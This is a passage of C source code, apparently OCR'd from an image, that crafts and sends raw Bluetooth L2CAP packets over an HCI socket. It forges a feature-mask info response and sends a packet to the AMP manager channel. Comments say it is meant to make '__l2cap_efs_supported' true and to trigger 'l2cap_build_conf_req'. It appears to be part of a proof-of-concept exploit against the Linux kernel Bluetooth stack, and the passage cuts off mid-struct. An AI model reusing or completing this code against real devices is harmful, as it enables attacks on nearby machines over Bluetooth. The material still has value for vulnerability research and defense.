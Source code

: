 ```c
  packet5.hdr.cid = htobs(1);
  packet5.cmd_hdr.code = L2CAP_INFO_REQ;
  packet5.cmd_hdr.ident = 1; // TODO: take ident from request
  packet5.cmd_hdr.len =
      htobs(sizeof(packet5) - L2CAP_HDR_SIZE - L2CAP_CMD_HDR_SIZE);
  packet5.info_req.type = htobs(L2CAP_IT_FEAT_MASK);
  hci_send_acl_data(hci_socket, hci_handle, &packet5, sizeof(packet5));

  while (1) {
    uint8_t buf[256] = {0};
    if (read(hci_socket, buf, sizeof(buf)) < 0) {
      perror("[-] read");
      exit(1);
    }
    if (buf[0] == HCI_ACLDATA_PKT) {
      l2cap_cmd_hdr *l2_cmd_hdr = (l2cap_cmd_hdr *)&buf[9];
      if (l2_cmd_hdr->code == L2CAP_INFO_RSP) {
        break;
      }
    }
  }

  // Make __l2cap_efs_supported true
  struct {
    l2cap_hdr hdr;
    l2cap_cmd_hdr cmd_hdr;
    l2cap_info_rsp info_rsp;
    uint32_t val;
  } packet3 = {0};
  packet3.hdr.len = htobs(sizeof(packet3) - L2CAP_HDR_SIZE);
  packet3.hdr.cid = htobs(1);
  packet3.cmd_hdr.code = L2CAP_INFO_RSP;
  packet3.cmd_hdr.ident = 1; // TODO: take ident from request
  packet3.cmd_hdr.len =
      htobs(sizeof(packet3) - L2CAP_HDR_SIZE - L2CAP_CMD_HDR_SIZE);
  packet3.info_rsp.type = htobs(L2CAP_IT_FEAT_MASK);
  packet3.info_rsp.result = htobs(L2CAP_IR_SUCCESS);
  packet3.val = L2CAP_FEAT_EXT_FLOW | L2CAP_FEAT_FIXED_CHAN | L2CAP_FEAT_ERTM;
  hci_send_acl_data(hci_socket, hci_handle, &packet3, sizeof(packet3));

  while (1) {
    uint8_t buf[256] = {0};
    if (read(hci_socket, buf, sizeof(buf)) < 0) {
      perror("[-] read");
      exit(1);
    }
    if (buf[0] == HCI_ACLDATA_PKT) {
      l2cap_cmd_hdr *l2_cmd_hdr = (l2cap_cmd_hdr *)&buf[9];
      if (l2_cmd_hdr->code == L2CAP_INFO_REQ) {
        break;
      }
    }
  }

  struct {
    l2cap_hdr hdr;
  } packet0 = {0};
  packet0.hdr.len = htobs(sizeof(packet0) - L2CAP_HDR_SIZE);
  packet0.hdr.cid = htobs(AMP_MGR_CID);
  hci_send_acl_data(hci_socket, hci_handle, &packet0, sizeof(packet0));

  // Trigger l2cap_build_conf_req
  struct {
```